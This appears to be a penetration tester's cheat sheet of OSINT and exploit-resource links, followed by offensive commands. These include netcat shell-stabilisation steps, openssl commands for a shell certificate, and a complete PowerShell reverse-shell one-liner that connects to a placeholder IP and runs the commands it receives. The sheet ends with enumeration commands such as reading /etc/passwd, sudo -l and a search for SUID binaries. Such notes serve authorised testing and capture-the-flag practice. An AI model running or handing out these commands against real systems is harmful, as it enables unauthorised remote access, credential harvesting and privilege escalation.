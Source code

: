 OSINT

SSL/TLS cert validation - http://crt.sh/ - good for identifying subdomains
DNS queries: https://dnsdumpster.com/
Public db of everything: https://www.shodan.io/

https://www.exploit-db.com/

https://crackstation.net/

Payloads all the things: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
Reverse shell cheatsheet: https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
Sec Lists: https://github.com/danielmiessler/SecLists

Netscat Shell stabilitisation

1. python -c 'import pty;pty.spawn("/bin/bash")'
2. export TERM=xterm
3. Ctrl + Z then stty raw -echo; fg

1. sudo apt install rlwrap
2. rlwrap nc -lvnp <port>
3. stty raw -echo; fg

Self signed crt: openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
Merge key and crt into pem: cat shell.key shell.crt > shell.pem
PS reverse shell: powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

cat /etc/passwd | grep home
sudo -l
ipconfig
netstat -a
netstat -au
netstat -at
netstat -lp
netstat -ltp
netstat -s
netstat -tp
netstat -i

find / -perm a=x -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null => Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.